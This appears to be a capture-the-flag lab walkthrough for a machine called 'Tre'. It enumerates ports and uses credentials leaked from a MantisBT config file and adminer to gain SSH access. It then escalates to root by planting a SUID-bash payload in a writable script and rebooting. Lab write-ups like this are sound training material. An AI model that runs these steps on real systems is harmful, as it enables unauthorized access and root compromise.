



# Tre

**IP Address:** 192.168.238.84

## Enumeration
### Open Ports
| Port #| Service | Details  |
|:------|:--------|:---------|
| 22 | ssh | OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0) |
| 80 | http | Apache httpd 2.4.38 ((Debian)) |
| 8082 | http | nginx 1.14.2 |


## Exploitation
### Exploit Details (Found Credentials)
* **Name** - Found Credentials
* **CVE** - N/A
* **Module** - N/A
* **Disclosed** - N/A
* **References**
  * N/A

1. Navigating to the link http://192.168.238.84/mantisbt/config/a.txt gives us the database username & password which we can use to login at http://192.168.238.84/adminer.php. From here we can enumerate the usernames & passwords for the MantisBT system and use them to gain ssh access. 



2. We can now use the tre user credentials to login via ssh. 

Commands
```
ssh tre@$ip
Tr3@123456A!
whoami
cat local.txt
```


## Privilege Escalation
### Exploit Details (File Permissions)
* **Name** - File Permissions
* **CVE** - N/A
* **Module** - N/A
* **Disclosed** - N/A
* **References**
  * N/A

A running script /usr/bin/check-system allows us to write to it. Also we have SUDO permissions to restart host so we can alter the script and then reboot the host to restart it. 

1. Modify the script and add the payload below. 

Payload
```
cp /bin/bash /tmp/rootbash
chmod +s /tmp/rootbash
```



2. Reboot the host. 

Commands
```
sudo shutdown -r now
```


3. Once we login after reboot we can elevate straight to root with the rootbash SUID file. 

Commands
```bash
/tmp/rootbash -p
whoami
cat /root/proof.txt
```


## Loot
```
local.txt
01fd988b9511a76e61104a0634f42a5f
proof.txt
94b5da5dd85af709c452b2b510b35e66
```